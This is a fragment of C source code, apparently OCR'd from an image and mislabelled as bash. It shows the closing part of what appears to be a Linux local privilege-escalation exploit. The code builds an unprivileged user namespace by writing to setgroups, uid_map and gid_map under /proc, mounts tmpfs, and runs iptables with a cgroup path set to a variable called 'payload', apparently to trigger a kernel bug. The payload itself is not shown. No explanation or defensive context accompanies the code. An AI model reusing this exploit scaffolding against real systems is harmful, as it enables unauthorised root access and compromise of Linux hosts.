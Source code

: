 ```bash

        write(a[1], &c, 1);
        read(b[0], &c, 1);

        system("mount -t tmpfs tmpfs /run");

        fd = open("/dev/null", O_RDONLY);
        if(fd < 0) die("open");

        if(dup2(fd, 2) < 0) die("dup2");

        execl("/sbin/iptables", "iptables", "-A", "OUTPUT", "-m", "cgroup", "--path", payload, "-j", "LOG", NULL);
        exit(1);
    }

    read(a[0], &c, 1);

    snprintf(path, sizeof path, "/proc/%u/setgroups", pid);

    fd = open(path, O_RDWR);
    if(!fd) die("open");

    strcpy(buf, "deny");

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    snprintf(path, sizeof path, "/proc/%u/uid_map", pid);

    fd = open(path, O_RDWR);
    if(fd < 0) die("open");

    snprintf(buf, sizeof buf, "0 %d 1", getuid());

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    snprintf(path, sizeof path, "/proc/%u/gid_map", pid);

    fd = open(path, O_RDWR);
    if(fd < 0) die("open");

    snprintf(buf, sizeof buf, "0 %d 1", getgid());

    if(write(fd, buf, strlen(buf)) != strlen(buf)) die("write");
    close(fd);

    write(b[1], &c, 1);

    close(a[0]);
    close(a[1]);
    close(b[0]);
    close(b[1]);

    wait(NULL);
}
```
